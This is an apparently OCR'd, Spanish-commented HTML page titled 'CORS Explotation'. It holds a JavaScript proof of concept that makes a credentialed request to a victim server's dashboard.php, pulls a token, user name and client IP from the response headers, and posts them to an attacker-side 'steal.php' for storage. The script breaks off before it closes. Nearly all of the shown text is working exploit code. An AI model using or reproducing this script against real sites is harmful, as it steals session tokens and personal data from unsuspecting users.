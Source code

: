 ```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CORS Explotation</title>
    <script>
        // Función para enviar la solicitud GET manualmente
        function obtenerDatos() {
            var xhttp = new XMLHttpRequest();
            xhttp.onreadystatechange = function() {
                if (this.readyState == 4) {
                    if (this.status == 200) {
                        // Captura todos los encabezados de la respuesta
                        var headers = this.getAllResponseHeaders();
                        console.log("Response Headers: ");
                        console.log(headers); // Muestra todos los encabezados

                        // Asegúrate de que estás extrayendo correctamente el token, el nombre de usuario y la IP
                        var tokenMatch = headers.match(/token:\s*(\S+)/i);
                        var userNameMatch = headers.match(/user-name:\s*(\S+)/i);
                        var clientIpMatch = headers.match(/client-ip:\s*(\S+)/i);

                        // Mostrar el token, el nombre de usuario y la IP en la consola
                        if (tokenMatch && userNameMatch && clientIpMatch) {
                            console.log("TOKEN: " + tokenMatch[1]);
                            console.log("User Name: " + userNameMatch[1]);
                            console.log("Client IP: " + clientIpMatch[1]);

                            // Aquí vamos a hacer la solicitud POST para enviar estos datos al servidor
                            var data = {
                                token: tokenMatch[1],
                                username: userNameMatch[1],
                                ip: clientIpMatch[1]
                            };

                            // Enviar los datos al servidor para almacenarlos en un archivo .txt
                            var postRequest = new XMLHttpRequest();
                            postRequest.open("POST", "steal.php", true);
                            postRequest.setRequestHeader("Content-Type", "application/json");
                            postRequest.onreadystatechange = function() {
                                if (postRequest.readyState == 4 && postRequest.status == 200) {
                                    console.log("Datos guardados correctamente en el servidor.");
                                }
                            };
                            postRequest.send(JSON.stringify(data));  // Enviar los datos como JSON
                        } else {
                            console.log("No token, user-name, or client-ip found in the response.");
                        }
                    } else {
                        console.error("Failed to fetch API token. Status: " + this.status);
                    }
                }
            };

            // Realizar la solicitud GET a dashboard.php
            xhttp.open("GET", "http://<IP_VICTIM>/dashboard.php", true);  // Cambia la IP por la correcta si es necesario
            xhttp.withCredentials = true;  // Esto enviará la cookie PHPSESSID si es necesario
            xhttp.send();
```